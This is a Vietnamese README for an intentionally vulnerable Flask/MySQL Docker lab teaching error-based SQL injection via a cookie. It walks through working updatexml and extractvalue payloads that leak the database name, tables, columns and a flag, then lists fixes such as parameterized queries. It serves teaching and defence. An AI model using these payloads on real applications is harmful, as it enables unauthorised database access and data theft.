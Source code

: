 # Lab: Error‑Based SQLi (Flask + MySQL + Docker)
## Cách build & chạy
```bash
# 1) Khởi động
docker compose up -d --build

# 2) Mở trình duyệt
#   http://127.0.0.1:5000
# Trang sẽ tự set cookie TrackingId=abc123 cho lần đầu.
```

---

## Khai thác Error‑Based SQLi (MySQL)
**Ý tưởng:** chèn payload vào cookie **TrackingId** để làm vỡ cú pháp (sinh lỗi) hoặc gọi các hàm tạo lỗi có chứa dữ liệu (ví dụ `updatexml` / `extractvalue`), từ đó dữ liệu xuất hiện trong **thông báo lỗi** MySQL (hiển thị trên trang lab).

### Gây lỗi cú pháp để “soi” truy vấn
- Đặt cookie: `abc123'`  → **lỗi** *You have an error in your SQL syntax…*
  - Thấy lab in ra cả **Last SQL** và **MySQL error** → đã đủ điều kiện khai thác kiểu error‑based.

### Bình thường hoá truy vấn (comment phần còn lại)
- Đặt cookie: `abc123' -- -`
  - Nếu không còn lỗi cú pháp, chứng tỏ bạn đã đóng được chuỗi và comment phần đuôi.

> Từ đây, ta có thể chèn biểu thức trong mệnh đề `WHERE`, ví dụ `' AND <payload> -- -`

### Lộ **tên CSDL hiện tại** qua lỗi `updatexml`
```
abc123' AND updatexml(1, concat(0x7e, database(), 0x7e), 1) -- -
```
- Kết quả (trong **MySQL error**): dạng `XPATH syntax error: '~sqli_lab~'` ⇒ lộ **database = sqli_lab**.

### Liệt kê **tên bảng** trong DB hiện tại
```
abc123' AND updatexml(1, concat(0x7e, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()), 0x7e), 1) -- -
```
- Kết quả lỗi sẽ chứa: `~users,flags~` (đã lộ 2 bảng).

### Liệt kê **cột** của bảng `flags`
```
abc123' AND updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='flags'), 0x7e), 1) -- -
```
- Sẽ thấy: `~id,flag~`.

### Lấy **FLAG** (từ bảng `flags`)
```
abc123' AND updatexml(1, concat(0x7e, (SELECT flag FROM flags), 0x7e), 1) -- -
```
- Lỗi trả về sẽ chứa: `~FLAG{demo_error_based_sqli_lab}~`

> Gợi ý: Nếu lỗi bị cắt ngắn, có thể `LIMIT` hoặc tách nhiều lần (substr/limit offset).
```
abc123' AND updatexml(1, concat(0x7e, (SELECT flag FROM flags LIMIT 0,1), 0x7e), 1) -- -
```

### Một vài biến thể
- Dùng `extractvalue(1, concat(...))` (MySQL ≤ 5.7; đã deprecated nhưng nhiều môi trường demo còn dùng):
```
abc123' AND extractvalue(1, concat(0x7e, user(), 0x7e)) -- -
```

---

## Hậu kiểm & vá lỗi
- **Không ghép chuỗi** cho câu lệnh SQL. Dùng **parameterized queries**:
  ```python
  cur.execute("SELECT username FROM users WHERE tracking_id = %s", (tracking_id,))
  ```
- **Ẩn thông báo lỗi chi tiết** ở môi trường production. Log nội bộ thay vì hiển thị trên UI.
- **WAF/validation**: ràng buộc pattern cookie (base64/uuid), giới hạn độ dài, từ chối ký tự nguy hiểm.
- **Nguyên tắc ít tiết lộ**: UI chỉ hiển thị thông báo chung chung, không in câu SQL hay lỗi DB cụ thể.

---

